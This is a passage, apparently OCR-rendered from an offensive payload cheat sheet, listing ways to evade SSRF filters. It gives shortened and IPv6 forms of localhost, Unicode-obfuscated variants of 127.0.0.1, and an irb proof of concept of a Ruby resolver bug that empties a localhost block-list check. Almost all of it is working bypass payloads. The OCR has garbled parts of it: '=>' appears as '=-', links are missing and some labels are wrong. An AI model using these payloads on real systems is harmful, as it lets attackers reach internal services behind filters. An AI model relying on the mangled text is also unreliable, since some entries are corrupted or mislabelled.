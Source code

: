 You can short-hand IP addresses by dropping the zeros:
```
1 part  (ping A)       : 0.0.0.A
2 parts (ping A.B)     : A.0.0.B
3 parts (ping A.B.C)   : A.B.0.C
4 parts (ping A.B.C.D) : A.B.C.D
​
0       =- 0.0.0.0
127.1   =- 127.0.0.1
127.0.1 =- 127.0.0.1
```

#### IPv6 address
-IPv6 localhost:
```
[::]
0000::1
[::1]
0:0:0:0:0:0:0:0
```
-IPv4-mapped IPv6 address: [::ffff:7f00:1]

-IPv4-mapped IPv6 address: [::ffff:127.0.0.1]

-IPv4-compatible IPv6 address (deprecated, q.v. : [::127.0.0.1]

-IPv4-mapped IPv6 address with : [::ffff:7f00:1%25]

-IPv4-mapped IPv6 address with : [::ffff:127.0.0.1%eth0]

#### Abuse of enclosed alphanumerics
Enclosed alphanumerics is a Unicode block of typographical symbols of an alphanumeric within a circle, a bracket or other not-closed enclosure, or ending in a full stop, q.v. .
```
127。0。0。1
127｡0｡0｡1
127．0．0．1
⑫７｡⓪．𝟢。𝟷
𝟘𝖃𝟕𝒇｡𝟘𝔵𝟢｡𝟢𝙭⓪｡𝟘𝙓¹
⁰𝔁𝟳𝙛𝟢０１
２𝟏𝟑𝟢𝟕𝟢６𝟺𝟛𝟑
𝟥𝟪³。𝟚⁵𝟞。²₅𝟞。²𝟧𝟟
𝟢₁𝟳₇｡０｡０｡𝟢𝟷
𝟎𝟢𝟙⑦⁷。０００。𝟶𝟬𝟢𝟘。𝟎₀𝟎𝟢０𝟣
[::𝟏②₇．𝟘．₀．𝟷]
[::𝟭２𝟟｡⓪｡₀｡𝟣%𝟸𝟭⑤]
[::𝚏𝕱ᶠ𝕗:𝟏₂７｡₀｡𝟢｡①]
[::𝒇ℱ𝔣𝐹:𝟣𝟤７。₀。０。₁%②¹𝟧]
𝟎𝚇𝟕𝖋｡⓪｡𝟣
𝟎ˣ𝟩𝘍｡𝟷
𝟘𝟘①𝟕⑦．１
⓪𝟘𝟙𝟳𝟽｡𝟎𝓧₀｡𝟏
```

### Abusing a bug in Ruby's native resolver
Resolv::getaddresses is OS-dependent, therefore by playing around with different IP formats one can return blank values.
Proof of concept:
```
irb(main):001:0- require 'resolv'
=- true
irb(main):002:0- uri = "0x7f.1"
=- "0x7f.1"
irb(main):003:0- server_ips = Resolv.getaddresses(uri)
=- [] # The bug!
irb(main):004:0- blocked_ips = ["127.0.0.1", "::1", "0.0.0.0"]
=- ["127.0.0.1", "::1", "0.0.0.0"]
```